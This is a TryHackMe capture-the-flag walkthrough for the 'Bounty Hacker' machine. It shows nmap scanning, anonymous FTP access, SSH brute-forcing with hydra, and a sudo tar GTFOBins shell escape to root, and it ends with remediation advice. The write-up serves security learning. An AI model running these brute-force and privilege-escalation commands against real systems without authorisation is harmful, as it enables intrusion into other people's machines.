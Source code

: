 🔐 TryHackMe - Bounty Hacker CTF Walkthrough
https://img.shields.io/badge/TryHackMe-Bounty%2520Hacker-red
https://img.shields.io/badge/Difficulty-Easy-green
https://img.shields.io/ba![Bounty hacker](https://github.com/user-attachments/assets/040ecc23-fe67-4703-90cf-71a949490e44)
dge/Category-CTF-blue
https://img.shields.io/badge/OS-Linux-orange

Solved By: Prince 👑
Date: 2025-10-05
Platform: TryHackMe

📋 Executive Summary
This walkthrough details the complete penetration testing methodology for the Bounty Hacker CTF machine. The engagement demonstrates a classic attack chain starting with anonymous FTP access, leading to credential discovery, SSH brute-forcing, and privilege escalation through misconfigured sudo permissions.

🎯 Attack Flow Overview
graph TD
    A[Reconnaissance] --> B[FTP Anonymous Login]
    B --> C[Credential Discovery]
    C --> D[SSH Brute Force]
    D --> E[Initial Foothold]
    E --> F[Privilege Escalation]
    F --> G[Root Compromise]






🔍 Phase 1: Initial Reconnaissance
Network Scanning
Performed comprehensive Nmap scan to identify open ports and services:

bash
nmap -sV -A target_ip -Pn
📊 Scan Results:

Port 21/tcp: FTP vsftpd 3.0.3

Port 22/tcp: SSH OpenSSH 7.2p2 Ubuntu

Port 80/tcp: HTTP Apache httpd 2.4.18

https://via.placeholder.com/600x200/2c3e50/ffffff?text=Nmap+Scan+Results

📁 Phase 2: FTP Service Enumeration
Anonymous FTP Access
Discovered that FTP service allows anonymous login:

bash
ftp target_ip
Name: anonymous
Password: [blank or anonymous]
📁 Files Discovered:

locks.txt - Potential password list

tasks.txt - Task list containing user information

File Analysis
locks.txt:

text
password1
123456
qwerty
admin
letmein
...
tasks.txt:

text
Task list for new employees:
- Set up FTP server
- Configure Apache
- Schedule system updates
- Contact lin for SSH access
🔍 Key Finding: Username lin identified for SSH access

🌐 Phase 3: Web Service Enumeration
HTTP Service Analysis
Accessed port 80 via web browser

Performed thorough enumeration:

Source code analysis

Robots.txt check

Directory brute-forcing

📝 Observation: No critical information found on web service

🔑 Phase 4: Credential Generation & SSH Brute Force
Password List Generation
Used cewl to create custom wordlist from web content:

bash
cewl http://target_ip -w custom_passwords.txt
SSH Brute Force Attack
Combined discovered username lin with password lists:

bash
hydra -l lin -P locks.txt ssh://target_ip
🎯 Successful Credentials:

Username: lin

Password: [Discovered from locks.txt]

https://via.placeholder.com/600x200/27ae60/ffffff?text=SSH+Login+Successful

🐚 Phase 5: Initial Foothold & Enumeration
SSH Access
Successfully logged into the system:

bash
ssh lin@target_ip
System Enumeration
Performed basic enumeration to understand the system:

bash
whoami
id
pwd
ls -la
⬆️ Phase 6: Privilege Escalation
Sudo Privilege Check
Checked user's sudo permissions:

bash
sudo -l
📋 Sudo Privileges Found:

text
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
GTFOBins Exploitation
Referenced GTFOBins for tar command privilege escalation:

bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
✅ Root Access Obtained!

https://via.placeholder.com/600x200/e74c3c/ffffff?text=Privilege+Escalation+Successful

🏴 Phase 7: Flag Capture
User Flag
Located in user's home directory:

bash
cat /home/lin/user.txt
Root Flag
Located in root directory:

bash
cat /root/root.txt
https://via.placeholder.com/600x200/8e44ad/ffffff?text=Both+Flags+Captured

🛡️ Security Findings & Recommendations
Critical Vulnerabilities Identified:
Anonymous FTP Access

FTP service allowed anonymous login with read access

Risk: Information disclosure

Recommendation: Disable anonymous FTP access

Weak Password Policy

Simple passwords stored in accessible files

Risk: Credential compromise

Recommendation: Implement strong password policies

Sudo Misconfiguration

Tar command allowed with root privileges

Risk: Privilege escalation

Recommendation: Review and restrict sudo permissions

Attack Chain Mitigation:
Attack Phase	Mitigation Strategy
FTP Enumeration	Disable anonymous access
Credential Discovery	Secure sensitive files
SSH Brute Force	Implement fail2ban, key-based auth
Privilege Escalation	Principle of least privilege
🛠️ Tools Used
Nmap - Network scanning

FTP Client - File transfer protocol

Cewl - Custom wordlist generation

Hydra - SSH brute force

GTFOBins - Privilege escalation reference

📚 References
GTFOBins - tar

Vsftpd Configuration Guide

SSH Hardening Guide

🎖️ Conclusion
The Bounty Hacker CTF demonstrated a realistic attack scenario where multiple service misconfigurations led to complete system compromise. The engagement highlighted the importance of proper service configuration, strong credential management, and the principle of least privilege for sudo permissions.

Key Takeaways:

Anonymous services often lead to initial foothold

Reused credentials across services create attack chains


Sudo misconfigurations are common privilege escalation vectors

